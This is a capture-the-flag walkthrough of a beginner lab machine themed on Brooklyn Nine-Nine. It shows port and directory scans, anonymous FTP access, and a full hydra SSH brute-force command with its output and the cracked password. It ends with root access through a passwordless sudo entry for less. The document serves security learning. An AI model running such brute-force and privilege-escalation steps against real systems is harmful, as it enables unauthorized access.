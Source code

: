 # Brooklyn 99

## nmap
```
Port 21 ftp - anonymous allowed
Port 22 ssh
Port 80 http
```
## gobuster
```
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
## webside
If we view source we can see a comment:
```
<!-- Have you ever heard of steganography? -->
```

So lets download that image and see what it gives us.
```
wget http://10.10.230.236/brooklyn99.jpg
--2020-07-26 11:28:24--  http://10.10.230.236/brooklyn99.jpg
Connecting to 10.10.230.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69685 (68K) [image/jpeg]
Saving to: ‘brooklyn99.jpg’

brooklyn99.jpg               100%[============================================>]  68.05K  --.-KB/s    in 0.09s   

2020-07-26 11:28:24 (762 KB/s) - ‘brooklyn99.jpg’ saved [69685/69685]
```
## steganography

First things first lets just check the .jpg with file and strings in case anything pops out. This shows as corrupted so I will get back to that later if need be.

## ftp

Lets see what we can get on the FTP server. As it is anonymous, I just use the browser to see what files are available. In this case we have a note from Amy to Jake:
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
From this we can make an assumption that we have two usernames jake and amy, both characters from the series. Also we are assured that Jake's password is a weak one.
Lets try and see what Hydra GUI can do with this for ftp first, using jake as the username and rockyou.txt as the list and then for ssh:

Nothing on the ftp side but success on the ssh:
```
hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.230.236
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 11:53:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.230.236:22/
[22][ssh] host: 10.10.230.236   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 11:54:19
<finished>
```
## ssh
Now we can logon as Jake.
```
ssh jake@10.10.230.236 
jake@10.10.230.236's pasword:
```
Let's look around. Nothing in Jake's home directory. We can however see two other user directories - Amy and Holt.

**Amy**
I can see that again her home directory is empty, but she does have an .ssh folder. We could look at this later.

**Holt**
This time we can see two files.
1. nano.save
2. user.txt

It we read this we get the answer to Task 1 #1

Now we will check out Jake's sudo -l permissions.

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```
This looks interesting. Jake can run /usr/bin/less as root with no password. Lets try and read the root.txt assuming it is where it should be.

```
- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <insertflaghere>

Enjoy!!
```
The comments in the room suggest a few ways to get root, so I will be coming back to try other ways!!
Great room for begineers like myself as well as being a great TV programme!!
